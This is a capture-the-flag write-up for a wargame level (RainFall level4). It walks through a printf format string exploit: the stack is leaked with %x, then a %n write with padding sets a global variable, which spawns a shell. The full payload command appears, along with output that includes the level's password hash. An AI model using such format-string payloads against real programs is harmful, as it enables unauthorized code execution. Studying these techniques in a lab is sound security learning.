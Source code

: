 The binary reads user input, prints it with printf, and checks if the global variable m (at address 0x08049810) has a specific value (0x1025544 or 16930116 in decimal). If so, it spawns a shell.

We’ll use a format string vulnerability to write that value into the memory address of m.

1. Leak the stack with %x
To exploit the format string, we need to know where our input lands on the stack. We use %x to leak stack values and look for where our input string appears:

```
level4@RainFall:~$ python -c 'print "aaaa " + " %x" * 15' > /tmp/exploit
level4@RainFall:~$ cat /tmp/exploit | ./level4
aaaa b7ff26b0 bffff744 b7fd0ff4 0 0 bffff708 804848d bffff500 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825 78252078
We see 61616161 in the output — that's 'aaaa' in hex. It appears at the 12th position on the stack.
```

2. Understanding %n
printf()'s %n writes the number of bytes printed so far to the memory address provided as an argument.

We'll insert the address of m (0x08049810) into our input, then use a format string like %<number>d%12$n to print <number> bytes, causing the value <number> to be written to m.

3. Use %<number>d to pad the output
We want to write 16930116 (0x01025544) into the memory address 0x08049810.

We can use %16930116d to pad the output to 16930116 characters, then use %12$n to write that value to the address.

But we already wrote 4 bytes to insert the address of m at the beginning of the input — so we subtract 4: 16930116 - 4 = 16930112

for exemple: 
int count = 0;
printf("AAAA%16d%n\n", 0, &count); 
it Prints 16 characters (AAAA + 12 spaces + '0'), then uses %n to write the total number of characters printed into 'count'

4. Final payload

```
python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"' > /tmp/exploit
cat /tmp/exploit | ./level4
.....
                     -1208015184
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a

```